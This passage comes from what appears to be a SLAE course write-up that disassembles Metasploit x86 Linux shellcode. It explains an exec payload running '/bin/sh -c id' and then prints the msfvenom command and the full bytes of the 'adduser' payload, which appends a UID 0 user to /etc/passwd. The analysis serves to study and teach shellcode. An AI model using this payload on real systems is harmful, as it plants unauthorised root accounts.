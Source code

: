 Following these two bytes is a null byte to terminate the `id` string.

Recall that the `CALL 0x20` instruction will redirect execution flow to `0x20` bytes in hex or `32` bytes in decimal from the start of the shellcode. As mentioned previously, `0000001D` correlates to decimal `29`. After taking into account the three bytes `0x696400` that form the null terminated `id` string, this means that the `CALL 0x20` instruction will result in execution flow being redirected to the instructions that directly follow the `0x696400` bytes at the `00000020` (decimal `32`) memory address. In other words, the instructions represented by  the shellcode `\x57\x53\x89\xe1\xcd\x80` will now be executed.

Using `ndisasm` again to disassemble this shellcode reveals the following:

```shell
root@kali:~/SLAE/assignment-5# echo -ne "\x57\x53\x89\xe1\xcd\x80" | ndisasm -b 32 -p intel -                                          
00000000  57                push edi
00000001  53                push ebx
00000002  89E1              mov ecx,esp
00000004  CD80              int 0x80
```

These `PUSH` instructions serve the purpose to complete the array of pointers to strings which will be passed as the second argument to `execve` through `ECX`. The memory addresses in the array must be passed in reverse order, and the memory address that contains `id` is already on the stack as a result of the `CALL 0x20` earlier. The `PUSH EDI` instuction pushes the memory address in `EDI` to the stack which contains the `-c` string. The `PUSH EBX` command pushes the memory address in `EBX` to the stack which contains the `/bin/sh` string. Therefor, there are now three memory address on the stack. The memory address on the top of the stack contains `/bin/sh`,  the second memory address contains `-c`, and the third memory address contains `id`. The memory address in `ESP` points to these memory addresses and is moved into `ECX` before the software interrupt `INT 0x80` occurs, which results in the `/bin/sh -c id` command being executed by `execve`. 

## Shellcode II: adduser
### Shellcode II: Explanation
The `adduser` payload includes instructions to add a user to the target system with the UID of 0. The `adduser` shellcode was generated using the `msfvenom` command shown below.

```shell
root@kali:~/SLAE/assignment-5# msfvenom -p linux/x86/adduser -f c
```

The shellcode is generated using default parameters. In this case, the user that will be added to the target system will be called `metasploit`. Since no password was provided, the default password will be used.

Once again, the `ndisasm` tool disassembles the shellcode bytes into more easily readable assembly operation codes and their respective instructions. The command used to accomplish this is shown below.

```shell
root@kali:~/SLAE/assignment-5# echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\        
x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -b 32 -p intel -
```
